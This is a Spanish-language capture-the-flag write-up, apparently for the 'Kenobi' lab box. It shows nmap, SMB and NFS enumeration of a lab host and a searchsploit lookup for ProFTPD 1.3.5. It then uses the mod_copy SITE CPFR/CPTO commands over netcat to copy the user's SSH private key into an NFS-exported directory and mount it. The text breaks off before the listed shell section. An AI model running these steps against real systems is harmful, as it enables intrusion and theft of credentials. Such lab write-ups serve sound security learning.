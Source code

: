# Kenobi 🤠🗡

Security, Owasp top 10, Cron. (#nmap, #samba, #suid, #pathvarmanipulation #smb )

## Tabla de contenido

- [Enumeración](#Enumeración).
- [Web Site](#Web-Site).
- [Shell](#Shell).


--------------------------------
### Enumeración
-------------------------------
Hacemos una revisión general:
```plain
nmap -sC -sV -oN nmap/initial 10.10.211.49
```

* -oN: Guardar el sondeo en formato normal.
* -sC: Realizar análisis con los scripts por defecto.
* -sV: Detección de la versión de servicios.

```
Starting Nmap 7.60 ( https://nmap.org ) at 2020-11-07 03:01 GMT
Nmap scan report for ip-10-10-20-62.eu-west-1.compute.internal (10.10.20.62)
Host is up (0.0014s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b3:ad:83:41:49:e9:5d:16:8d:3b:0f:05:7b:e2:c0:ae (RSA)
|   256 f8:27:7d:64:29:97:e6:f8:65:54:65:22:f7:c8:1d:8a (ECDSA)
|_  256 5a:06:ed:eb:b6:56:7e:4c:01:dd:ea:bc:ba:fa:33:79 (EdDSA)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/admin.html
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  2,3,4       2049/tcp  nfs
|   100003  2,3,4       2049/udp  nfs
|   100005  1,2,3      37331/tcp  mountd
|   100005  1,2,3      57285/udp  mountd
|   100021  1,3,4      35955/tcp  nlockmgr
|   100021  1,3,4      51202/udp  nlockmgr
|   100227  2,3         2049/tcp  nfs_acl
|_  100227  2,3         2049/udp  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
MAC Address: 02:8D:3E:7D:C6:25 (Unknown)
Service Info: Host: KENOBI; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: KENOBI, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: kenobi
|   NetBIOS computer name: KENOBI\x00
|   Domain name: \x00
|   FQDN: kenobi
|_  System time: 2020-11-06T21:01:30-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-07 03:01:30
|_  start_date: 1600-12-31 23:58:45

```

--------------------------------
#### Samba
-------------------------------
 Permite a los usuarios finales acceder y utilizar archivos, impresoras y otros recursos comúnmente compartidos en la intranet o Internet de una empresa.

Enumeración de acciones en los puertos default samba (139,445)
```
nmap -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.93.79
```
Resultado del escaneo:
```
Starting Nmap 7.60 ( https://nmap.org ) at 2020-11-07 19:38 GMT
Failed to resolve "smb-enum-users.nse".
Nmap scan report for ip-10-10-93-79.eu-west-1.compute.internal (10.10.93.79)
Host is up (0.00032s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:4A:C5:30:7D:69 (Unknown)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.93.79\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.93.79\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.93.79\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 1.00 seconds
```
Se observa los recursos compartidos, nos conectamos para ver que archivos encontramos:

```
smbclient //10.10.93.79/anonymous
```
--------------------------------
#### RPC
-------------------------------

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.93.79
```


```
Starting Nmap 7.60 ( https://nmap.org ) at 2020-11-07 21:00 GMT
Nmap scan report for ip-10-10-93-79.eu-west-1.compute.internal (10.10.93.79)
Host is up (0.00023s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836528.0  6877100.0  22%   16.0T        32000
MAC Address: 02:4A:C5:30:7D:69 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.80 seconds
```

--------------------------------
#### Proftpd
-------------------------------

Utilizaremos searchsploit para encontrar los exploits para ProFTPd 1.3.5

```
searchsploit proftpd 1.3.5
```

```
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exe | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                     | linux/remote/36742.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```
nc 10.10.239.150 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

```
sudo mkdir /mnt/kenobiNFS
mount 10.10.239.150:/var /mnt/kenobiNFS
sudo mount 10.10.239.150:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS/
```

```
cp /mnt/kenobiNFS
```
